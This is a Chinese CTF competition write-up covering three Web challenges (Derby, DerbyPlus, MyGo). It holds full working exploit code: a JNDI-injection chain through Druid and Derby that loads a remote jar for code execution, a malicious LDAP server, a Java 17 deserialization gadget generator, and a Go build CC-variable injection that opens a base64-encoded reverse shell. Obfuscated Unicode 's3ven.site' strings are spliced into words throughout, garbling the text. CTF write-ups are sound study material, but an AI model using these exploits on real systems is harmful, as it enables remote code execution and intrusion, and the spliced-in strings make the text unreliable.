




这场挂了个
默认战队名的ID打，拿到了Web单项的第二名（打不过大B哥qwq），𝘀⑶𝐯𝐞𝘯․𝘀𝐢ｔ℮两个Java题分别拿到了一血和二血，有点意外
排行榜
https://ctf.𝘀³𝐯𝐞𝒏•𝘀ⅈｔ𝐞junior.nu1l.com/2024.html

Derby 🩸 | 452PT
题目描述
我再也不用 Java 8 了 😭
Hint：Druid 绕过高版本 JDK 打 Derby RCE, 善用搜索引擎解题过程
IndexCont𝒔3𝘷e𝘯·𝐬𝘪𝒕ｅroller.java
@RequestMapping({"/lookup"})
public String lookup(@RequestParam String url) throws Exception {
Context ctx = new InitialContext();
ctx.lookup(url);
return "ok";
}在 IndexController 处可以发现 /lookup 路由存在 jns⑶v𝘦𝒏∙ѕⅈ𝘵𝐞di 注入漏洞
pom.xml
···
<properties>
<java.version>17</java.version>
</properties>
···
<dependency>
<groupId>com.alibaba</groupId>
<artifactId>druid</artifactId>
<version>1.2.21</version>
</dependency>
<dependency>
<groupId>org.apache.derby</groupId>
<artifactId>derby</artifactId>
<version>10.14.2.0</version>
</dependency>
···结合题目描述可知这是在 jdk17 高版本环境下的 jndi 注入，
并且可以发现 jar 包内引入了两个关键依赖项：
- com.alibaba.druid：JDBC ꜱ3𝘷𝘦n．𝐬𝐢𝐭e组件库，包含数据库连接池
- org.apache.s³𝐯𝘦n.ꜱi𝐭ederby：基于 Java 的嵌入式关系型数据库
结合 Hint：Druid 绕过高版本 JDK 打 Derby RCE 可知，需要使用𝒔⑶ⅴℯ𝘯∙𝐬𝘪t℮ JDBC池化
JDBC 池是一种用于管理 𝐬3vｅn·𝘴𝘪𝒕℮Java 应用程序中的数据库连接的机制。
在 JDBC 池中，预先创建并维护一组数据库连接，以供应用程序使用。ꜱ3𝐯𝘦𝘯．𝐬𝘪𝐭𝘦当应用程序需要访问数据库时，它会从池中请求一个连接，当它使用完连接后，会将它返回到池中而不是关闭它。这使应用程序能够重用现有连接并避免每次需要访问数据库时创建新连接的开销。
在 JNDI jdk高版𝘀𝟯ⅴℯｎ․𝒔ⅈt℮本绕过——Druid 中，我们发现了类似的实现：
try{
Registry registry = LocateRegistry.createRegistry(8883);
Reference ref = new Reference("javax.sql.DataSource","com.alibaba.druid.pool.DruidDataSourceFactory",null);
String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
"INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
"java.lang.Runtime.getRuntime().exec('cmd /c calc.exe')\n" +
"$$\n";
String JDBC_USER = "root";
String JDBC_PASSWORD = "password";
ref.add(new StringRefAddr("driverClassName","org.h2.Driver"));
ref.add(new StringRefAddr("url",JDBC_URL));
ref.add(new StringRefAddr("username",JDBC_USER));
ref.add(new StringRefAddr("password",JDBC_PASSWORD));
ref.add(new StringRefAddr("initialSize","1"));
ref.add(new StringRefAddr("init","true"));
ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
Naming.bind("rmi://localhost:8883/zlgExploit",referenceWrapper);
}
catch(Exception e){
e.printStackTrace();
}由于高版本 jdk 限制了从远程的 Codebase 加载 Factory 类的能力，因此需要找到本地 CLASSPATH 中的类作为恶意的 Reference Factory 工厂类，𝐬⑶𝐯ｅ𝒏．𝘴𝐢t𝘦并利用这个本地的 Factory 类执行命令。这个 Factory 类必须实现 javax.naming.spi.ObjectFactory 接口。
而在 com.alibaba.druid 中刚好存在 DruidDataSourceFactory 类满足条件，其实现了 javax.naming.spi.ObjectFactory 接口，可以被当做 JDBC 攻击的入口
由于在 Java 17 环境中，不再允许对内部类进行反射访问，因此，不再可能在 TemplatesImpl 类上调用方法，程序不执行 Payload，而是抛出 IllegalAccessException，也无法使用Jackson 链，所以不能利用反s3𝐯en∙ꜱⅈ𝐭e序列化来实现后续过程
同时，由 Make JDBC Attacks 𝘀𝟯𝐯ｅｎ.𝘀𝐢𝘵eBrilliant Again I 中可知，jdbc h2 数据库支持在创建时执行 init sql 语句，因此可以使用 h2 数据库所支持的 TRIGGER 触发任意代码执行

因此我们只需要在 𝐬³𝘷𝐞𝒏∙ѕ𝘪𝐭𝘦Derby 数据库中实现相同的路径即可
由于 Derby 数据库不支持在创建时通过 url 添加 init sql，而在 Druid 的 DruidDataSourceFactory 类中，我们发现了可以实𝘀³vℯn•𝘀𝘪ｔｅ现相似目的的属性 initConnectionSqls


因此可以利用 ꜱ3𝐯ｅ𝐧·𝒔ｉt𝐞Druid 中的 initConnectionSqls 属性来在创建 Derby 数据库时执行任意 sql 命令
最后就是在 Derby 数据库中寻找类似于 h2 数据库的通过 ꜱ³𝐯ｅn•𝐬𝘪𝒕℮sql 语句进行 RCE 的方法
在 derby数据库如何实现RCE 中给出了满足s⑶ⅴ𝘦𝒏․𝐬i𝘵℮条件的方法：
首先创建包含恶意 s⑶ⅴℯn․𝒔𝘪ｔ℮java 代码的 jar 包
test3.java
import java.io.IOException;
public class testShell4 {
public static void exec() throws IOException {
Runtime.getRuntime().exec("cmd.exe /c calc");
}
}打包成 jar：
javac test3.java
jar -cvf test3.jar test3.class再在 Derby 数据库中使用 sql 𝘀³𝐯℮𝐧.𝘀𝘪ｔｅ语句远程加载恶意 jar 包实现 RCE
## 导入一个类到数据库中
CALL SQLJ.INSTALL_JAR('http://127.0.0.1:8088/test3.jar', 'APP.Sample4', 0)
## 将这个类加入到derby.database.classpath，这个属性是动态的，不需要重启数据库
CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath','APP.Sample4')
## 创建一个PROCEDURE，EXTERNAL NAME 后面的值可以调用类的static类型方法
CREATE PROCEDURE SALES.TOTAL_REVENUES() PARAMETER STYLE JAVA READS SQL DATA LANGUAGE JAVA EXTERNAL NAME 'testShell4.exec'
## 调用PROCEDURE
CALL SALES.TOTAL_REVENUES()自此，我们就完成了通过 Druid 绕过高版本 JDK 打 ꜱ³𝒗𝘦ｎ．ꜱｉ𝐭𝐞Derby RCE 的全过程
PoC
// LDAPServer.java
package com.evil.server;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
public class LDAPServer implements Runnable {
private static String ip;
private static int port;
public LDAPServer(String ip, int port) {
this.ip = ip;
this.port = port;
}
@Override
public void run() {
try {
InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig("dc=example,dc=com");
config.setListenerConfigs(new InMemoryListenerConfig(
"listen",
InetAddress.getByName("0.0.0.0"),
this.port,
ServerSocketFactory.getDefault(),
SocketFactory.getDefault(),
(SSLSocketFactory) SSLSocketFactory.getDefault())
);
config.addInMemoryOperationInterceptor(new OperationInterceptor());
InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
System.out.println("[LDAP] Listening on " + this.ip + ":" + this.port);
ds.startListening();
} catch (Exception e) {
e.printStackTrace();
}
}
public static void main(String[] args) {
new Thread(new LDAPServer("0.0.0.0", 1389)).start();
}
private static class OperationInterceptor extends InMemoryOperationInterceptor {
@Override
public void processSearchResult(InMemoryInterceptedSearchResult searchResult) {
String base = searchResult.getRequest().getBaseDN();
Entry e = new Entry(base);
String path = "/" + base.split(",")[0];
System.out.println("[LDAP] Send result for " + path);
Object result = Dispatcher.getInstance().service(path);
e.addAttribute("javaClassName", "foo");
e.addAttribute("javaSerializedData", SerializeUtil.serialize(result));
try {
searchResult.sendSearchEntry(e);
searchResult.setResult(new LDAPResult(0, ResultCode.SUCCESS));
} catch (Exception ex) {
ex.printStackTrace();
}
}
}
}// SerializeUtil.java
package com.evil.server;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
public class SerializeUtil {
public static byte[] serialize(Object obj) {
ByteArrayOutputStream arr = new ByteArrayOutputStream();
try (ObjectOutputStream output = new ObjectOutputStream(arr)){
output.writeObject(obj);
} catch (Exception e) {
e.printStackTrace();
}
return arr.toByteArray();
}
}// Dispatcher.java
package com.evil.server;
public class Dispatcher {
private static Dispatcher INSTANCE = new Dispatcher();
private DruidController druidController = new DruidController();
public static Dispatcher getInstance() {
return INSTANCE;
}
private Dispatcher() {
}
public Object service(String path) {
if ("/Druid".equals(path)) {
return druidController.process();
}
return null;
}
}// DruidController.java
package com.evil.server;
import javax.naming.Reference;
import javax.naming.StringRefAddr;
public class DruidController {
public Object process() {
Reference ref = new Reference("javax.sql.DataSource", "com.alibaba.druid.pool.DruidDataSourceFactory", null);
ref.add(new StringRefAddr("driverClassName", "org.apache.derby.jdbc.EmbeddedDriver"));
ref.add(new StringRefAddr("url", "jdbc:derby:ctf;create=true"));
ref.add(new StringRefAddr("initialSize", "1"));
String initCommands = "CALL SQLJ.INSTALL_JAR('http://127.0.0.1/rce.jar', 'APP.Sample', 0);"
+ "CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath', 'APP.Sample');"
+ "CREATE PROCEDURE SALES.TOTAL_REVENUES() PARAMETER STYLE JAVA READS SQL DATA LANGUAGE JAVA EXTERNAL NAME 'rce.exec';"
+ "CALL SALES.TOTAL_REVENUES();";
ref.add(new StringRefAddr("initConnectionSqls", initCommands));
ref.add(new StringRefAddr("init", "true"));
System.out.println("Derby Connect to Database: ctf");
return ref;
}
}Jar 包部分
// rce.java
import java.io.IOException;
public class rce {
public static void exec() throws IOException {
Runtime.getRuntime().exec("cmd.exe /c calc");
}
}javac rce.java
jar -cvf rce.jar rce.class访问 http://127.0.0.1:8080/lookup?url=ldap://127.0.0.1:1389/Druid 即可实现RCE
DerbyPlus 🩸🩸 | 452PT
题目描述
我再也不用 Java 8 了 😭 (Plus)
Hint：Derby 的升级版, 两道题之间存在联系, 思路都是一样的解题过程
与 Derby 一题基本相似，𝐬³ⅴeｎ.𝘴𝘪𝒕℮不同之处有以下两处
pom.xml
<dependency>
<groupId>commons-beanutils</groupId>
<artifactId>commons-beanutils</artifactId>
<version>1.8.3</version>
</dependency>添加了 commons-beanutils 1.8.3 作为依赖
IndexContro𝘴𝟯𝒗𝘦𝐧∙ꜱｉ𝒕ｅller.java
@RequestMapping({"/deserialize"})
public String deserialize(@RequestBody String body) throws Exception {
byte[] data = Base64.getDecoder().decode(body);
ObjectInputStream input = new ObjectInputStream(new ByteArrayInputStream(data));
try {
input.readObject();
input.close();
} catch (Throwable throwable) {
try {
input.close();
} catch (Throwable throwable1) {
throwable.addSuppressed(throwable1);
}
throw throwable;
}
return "ok";
}将原先的 jndi lookup 𝘀³ve𝐧·sｉ𝘵𝘦部分替换成了 readObject() 反序列化接口
由于环境仍然是 Java 17，受到较多限制，𝐬𝟯ⅴe𝒏.ꜱｉt𝐞仍然考虑通过触发 jndi lookup 完成与上一题 Derby 的相同过程实现 RCE
由于依赖中只包含 commons-beanutils 1.8.3 ，考虑使用 CommonsBeanutils1NoCC + com.sun.jndi.ldap.LdapAttribute 链触发 jnd𝒔𝟯𝒗𝐞𝒏․ѕ𝘪𝘵ｅi lookup
PoC
// LdapExp.java
import org.apache.commons.beanutils.BeanComparator;
import javax.naming.CompositeName;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;
public class LdapExp {
public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
Class clazz = obj.getClass();
Field field = clazz.getDeclaredField(fieldName);
field.setAccessible(true);
field.set(obj, newValue);
}
public static void main(String[] args) throws Exception {
Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(new Class[] {String.class});
ldapAttributeClazzConstructor.setAccessible(true);
Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(new Object[] {"name"});
setFieldValue(ldapAttribute, "baseCtxURL", "ldap://127.0.0.1:1389/");
setFieldValue(ldapAttribute, "rdn", new CompositeName("Druid/"));
BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
PriorityQueue pq = new PriorityQueue(comparator);
setFieldValue(pq, "size", 2);
setFieldValue(comparator, "property", "attributeDefinition");
setFieldValue(pq, "queue", new Object[]{ldapAttribute, ldapAttribute});
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(pq);
oos.close();
String encoded = Base64.getEncoder().encodeToString(barr.toByteArray());
System.out.println(encoded);
}
}后续过程与 Derѕ𝟯ⅴℯn•𝐬i𝐭eby 一题相同
MyGo | 430PT
题目描述
My Golang Cross-Compiler
Hint：go build 环境变量注入 RCE解题过程
题目是一个 go𝐬𝟯𝘷ℯｎ․𝘴itｅlang 的代码编译器
结合 Hint 可知，此处存在 go 𝘴𝟯𝘷ℯ𝐧•𝐬𝘪𝒕ebuild 时的 env 注入漏洞：
cmd := exec.Command("go", "build", "-o", "main", "main.go")
cmd.Env = append(os.Environ(), env...)在网上进行了初步的搜索，发现好像找不到相关的漏洞信息，s𝟯𝐯ｅ𝘯∙𝘴𝐢ｔ𝘦于是前往 go 的官方文档寻找
go command - cmd/go - Go Packages#hdr-Environment_variables
结合题目前端里 Enable CGO 的提示，我们发现 go 代码中可以利用 cgo 注入 c 语言语句，而在编译包含 c 语言语句的 go 代码时会调用外部编译器来编译这部分 c 语言语句，由于调用外部编译器的命令是由环境变量 CC 控制的，因此可以通过注入 CC 环境变量来实现 RCE
PoC
"CGO_ENABLED":"1",
"CC":"bash -c {echo,x}|{base64,-d}|{bash,-i}" // x: "bash -i >& /dev/tcp/ip/port 0>&1" encoded with base64